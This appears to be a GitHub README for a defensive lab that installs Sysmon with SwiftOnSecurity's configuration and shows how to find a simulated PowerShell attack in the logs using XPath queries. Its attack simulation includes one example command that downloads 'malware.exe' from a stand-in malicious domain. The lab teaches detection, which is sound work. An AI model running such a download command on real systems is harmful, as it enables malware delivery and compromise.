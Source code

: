 # Sysmon Blue Team Lab 🛡️

This repository serves as a **laboratory** to showcase my skills in **security monitoring** using **Sysmon** on Windows systems. In this lab, I will walk you through the installation of Sysmon, configuring it using the recommended **SwiftOnSecurity's Sysmon Config**, and performing basic analysis to detect suspicious activities.

---

## **Table of Contents** 📚

- [Introduction](#introduction)
- [Prerequisites](#prerequisites)
- [Step 1: Download and Install Sysmon](#step-1-download-and-install-sysmon)
- [Step 2: Configure Sysmon](#step-2-configure-sysmon)
- [Step 3: Analyze Sysmon Logs](#step-3-analyze-sysmon-logs)
- [Contributing](#contributing)

---

## **Introduction** 🎯

**Sysmon** (System Monitor) is a powerful Windows system service and device driver developed by Microsoft’s Sysinternals suite. It provides detailed information about system activity, which can be used for detecting malicious behavior, performing incident response, and creating a comprehensive security monitoring setup.

In this lab, we will be setting up Sysmon with the configuration file recommended by **SwiftOnSecurity** to monitor various system events such as process creations, network connections, file modifications, and registry changes. This configuration helps to identify suspicious or anomalous activities that might indicate a cyber attack.

---

## **Prerequisites** ⚙️

Before proceeding, ensure you have the following:

- **Windows OS** (Windows 10 or Server 2016 and above)
- **Sysmon** (downloadable from the Sysinternals suite)
- **SwiftOnSecurity's Sysmon Config**: This is the configuration file we will use, which is designed for security monitoring.
- Administrator privileges 🔑
- Basic understanding of cybersecurity and security monitoring principles 🔍

---

## **Step 1: Download and Install Sysmon** 📥

Follow these steps to download and install Sysmon:

1. **Download Sysmon** from the official [Sysinternals website](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon).
2. **Extract** the downloaded zip file to a location on your machine.
3. **Open PowerShell as Administrator** and navigate to the Sysmon folder.
---

## Step 2: Configure Sysmon Using SwiftOnSecurity's Sysmon Config ⚙️

The SwiftOnSecurity GitHub repository provides a community-vetted sysmonconfig.xml that’s designed to monitor key system activities like process creation, network connections, file changes, and registry modifications. This configuration is ideal for detecting malicious activities on Windows systems.

Visit the official SwiftOnSecurity Sysmon Config repository: https://github.com/SwiftOnSecurity/sysmon-config

Download the latest sysmonconfig.xml file from the repository and save it in your Sysmon folder (where you extracted Sysmon).

The following command will install the system, with the configuration file
```powershell
    sysmon -accepteula -i sysmonconfig-export.xml
```
After installation, verify that Sysmon is running by checking the Event Viewer for Sysmon logs:
```powershell
    Applications and Services Logs > Microsoft > Windows > Sysmon > Operational
```
You should see events for process creation, network connections, and other monitored activities.

## Step 3: Detecting Malicious Activity Using Sysmon Logs 🚨

In this section, we will simulate and analyze a malicious PowerShell execution that downloads a suspicious file from an untrusted IP address.
Scenario: Detecting PowerShell-based Malware Execution

Let’s simulate a scenario where an attacker uses PowerShell to download a malicious file from a remote IP address. You can imagine this is a real-world situation where an attacker is trying to compromise a system using PowerShell Empire or Cobalt Strike.
Simulating Malicious PowerShell Execution:

1. Create a PowerShell script (simulation):
   The attacker may execute a PowerShell command like:
   ```powershell
   Invoke-WebRequest -Uri http://maliciousdomain.com/malware.exe -OutFile C:\Users\Victim\Downloads\malware.exe
   ```
   This PowerShell script downloads a malicious file (malware.exe) from a suspicious IP and saves it to a Downloads folder.

2. Trigger the Attack Simulation:

    To simulate the attack, you can execute the script or any PowerShell command that attempts to download a file from an untrusted source. You can either run this script manually or automate it for testing purposes.

3. Analyze Sysmon Logs:

Once the attack is triggered, Sysmon will log events related to the PowerShell execution and the network connection to the malicious IP.

  Step 1: Open Event Viewer and navigate to:
  ```powershell
  Applications and Services Logs > Microsoft > Windows > Sysmon > Operational
  ```
  Step 2: Search for events related to PowerShell execution:
  
  Use the XPath query to search for PowerShell executions:
  ```powershell
      *[EventData[Data[@Name='Image'] and (Data='powershell.exe')]]
  ```
  Step 3: Look for Network Connection Events that may indicate a connection to a suspicious IP:
  
  Use the XPath query to search for network connections to untrusted IPs:
  ```powershell
      *[EventData[Data[@Name='DestinationIp'] and (Data='192.168.1.100')]]
  ```
  Step 4: Once suspicious PowerShell execution and network connection events are found, review the event details:
  
  . PowerShell process information (e.g., parameters, parent processes)
  
  . The destination IP (could be a known malicious IP)
  
  . File creation events (e.g., file being saved to Downloads)

